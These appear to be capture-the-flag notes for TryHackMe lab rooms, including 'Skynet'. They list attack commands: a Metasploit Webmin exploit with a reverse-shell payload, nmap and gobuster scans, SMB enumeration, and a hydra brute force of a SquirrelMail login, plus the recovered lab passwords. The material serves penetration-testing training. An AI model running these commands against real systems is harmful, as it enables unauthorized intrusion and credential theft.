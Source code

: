 		--> ssh -L 10000:localhost:10000 agent47@10.10.144.38
			=> ss -tulpn
				-t	顯示 TCP 套接字
				-u	顯示 UDP 套接字
				-l	僅顯示監聽套接字
				-p	顯示使用套接字的進程
				-n	不解析服務名稱
			=>  accessed browser on localhost:10000
				=> Webmin 1.580
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	vuln (root): 						
		--> searchsploit Webmin 1.580

		--> msfconsole : 
			--> search '/file/show.cgi'
			--> set password videogamer124
			--> set username agent47  
			--> set rhosts localhost
			--> set payload cmd/unix/reverse
			--> set lhost tun0
			--> set ssl false

			--> sessions -i 2
## Skynet : 
	--> email | samba  |  PentestMonkey |tar 
	--> https://tryhackme.com/r/room/skynet
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	infomation garthering : 
		--> nmap -sV -sS -T5 --script vuln 10.10.85.98 
			=> samba 
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> gobuster dir -u http:/10.10.85.98 -w /usr/share/dirb/wordlists/common.txt
			=>  /squirrelmail
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> enum4linux 10.10.85.98 
			=> S-1-22-1-1001 Unix User\milesdyson (Local User) 
			
			--> smbclient //10.10.85.98/Anonymous
				=> get attention.txt 
				=> get log1.txt
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> hydra -l milesdyson -P log1.txt 10.10.85.98 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
			=> [80][http-post-form] host: 10.10.85.98   login: milesdyson   password: cyborg007haloterminator
			
			=> new password : )s{A&2Z=F^n_E.B`
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	user :
		--> smbclient -U milesdyson //10.10.49.79/milesdyson
			=> get important.txt
				=> 1. Add features to beta CMS /45kra24zxs28v3yd
				=> 2. Work on T-800 Model 101 blueprints
				=> 3. Spend more time with my wife
		